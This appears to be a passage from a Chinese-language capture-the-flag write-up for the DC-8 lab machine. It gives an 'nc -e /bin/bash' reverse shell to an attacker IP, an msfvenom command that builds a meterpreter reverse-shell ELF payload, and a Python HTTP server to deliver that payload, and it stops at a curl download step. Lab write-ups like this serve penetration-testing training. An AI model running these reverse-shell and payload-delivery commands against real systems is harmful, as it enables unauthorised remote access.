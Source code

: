 ![image-20231230210024527](DC-8.assets/image-20231230210024527.png)

nc反弹shell

```
kali
nc -lvvp 5555 

client
nc -e /bin/bash 192.168.159.128 5555
```

msfvenom生成一个msf的马

```
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=192.168.159.128 LPORT=22333 -a x86 --platform Linux -f elf > shell.elf
```

Python开一个临时服务器用于传马

```
python3 -m http.server 60312
```

curl访问下载文件
